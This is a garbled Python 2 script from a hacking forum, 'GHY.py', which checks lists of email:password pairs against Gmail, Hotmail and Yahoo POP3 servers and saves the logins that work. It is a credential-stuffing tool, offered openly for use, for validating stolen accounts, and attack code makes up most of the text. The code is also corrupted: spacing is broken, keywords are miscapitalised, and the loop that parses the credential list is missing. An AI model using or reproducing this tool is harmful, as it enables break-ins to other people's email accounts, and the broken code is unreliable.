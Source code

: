 #! / Usr / bin / python  
#  
# #  
# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # #  
#. ____________. ___ #  
# __ | _ / ____ _______ | | ______ \ _ \ __ | _ / ____ #  
# / __ | \ __ \ \ ___ \ | / / / ___ \ / / _ \ \ / __ | / __ \ #  
# / / _ / | / __ \ | | \ / <\ \ ___ \ \ _ / \ / / _ / \ ___ / #  
# \ ____ | (______ / __ | | __ | _ \ \ _____> \ _____ / \ _____ | \ ____ \ #  
# \ / \ / \ / #  
# You only get smarter, by playing a smarter opponent! # 
# # ____________________  
# _ / ___ \ ___ \ _ / __ \ \ / \ / / #  
# \ \ ___ | | \ / \ ___ / \ / #  
# \ ___> __ | \ ___> \ / \ _ / #  
# Est.2007 \ / \ / forum.darkc0de.com #  
# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # #  
# #  
#  
# Code: p47r1ck  
# Name: GHY.py  
# Version 1.0  
#  
# IMPORTANT!!!  
#  
#  
# "You only get smarter  
# By playing a smarter opponent! "  
# By P47r1ck  
#  
# Thanks to: 3l3c7r1c ***91;Happy Now? ***93; 
#  
  
import sys, poplib, os  
os.system (***91;'clear', 'cls'***93; ***91;os.name == 'nt'***93;)  
def printHelp ():  
    print '\ nUsage:. / GHY.py <domain> <emails>'  
    print 'Ex:. / GHY.py yahoo emails.txt'  
    print 'Ex:. / GHY.py gmail emails.txt'  
    print 'Ex:. / GHY.py hotmail emails.txt'  
    Print '\ nNote: The Accounts must be in the following Format: user@mail.com : password \ n ' 
  
print "\ n ********************************************** ********************** "  
print "* Multi Account Checker!!! *"  
print "* Gmail - Hotmail - Yahoo *"  
print "* Coded by P47r1ck! *"  
print "* www.darkc0de.com *"  
print "* 07/2009 *"  
print "************************************************ ******************** "  
  
if len (sys.argv)! = 3:  
    printHelp ()  
    exit (1)  
SAVEFILE = 'valid_emails.txt'  
if sys.argv ***91;1***93; == "hotmail":  
    HOST = 'pop3.live.com'  
    PORT = 995  
    print '\ nChecking Hotmail Account Now \ n'  
else:  
    pass  
if sys.argv ***91;1***93; == "gmail":  
    HOST = 'pop.gmail.com'  
    PORT = 995  
    print '\ nChecking Gmail Account Now \ n'  
else:  
    pass  
if sys.argv ***91;1***93; == "yahoo":  
    HOST = 'plus.pop.mail.yahoo.com'  
    PORT = 995  
    print '\ nChecking Yahoo Account Now \ n'  
  
  
  
# Do not change anything below.  
maillist = sys.argv ***91;2***93;  
valid = ***91;***93;  
currline = 0  
  
try:  
    handle = open (maillist)  
except:  
    print '\ n ***91;-***93; I can not open the mail list.Dude!!! Be carefull!!! ' 
    print '\ n ***91;-***93; Leaving ... Ciao!'  
    exit (1)  
  
    try:  
        pop = poplib.POP3_SSL (HOST, PORT)  
        pop.user (email)  
        pop.pass_ (password)  
        valid.append (email + ':' + password)  
        print '\ n ***91;+***93; Checking:% s <% s> -> Valid! \ n'% (email, password)  
        pop.quit ()  
    except:  
        print '***91;+***93; Checking:% s <% s> -> Invalid!' % (Email, password) 
        pass  
  
print '\ n ***91;+***93; Total Valid:% s'% len (valid)  
print '\ n ***91;+***93; Done. \ n' 
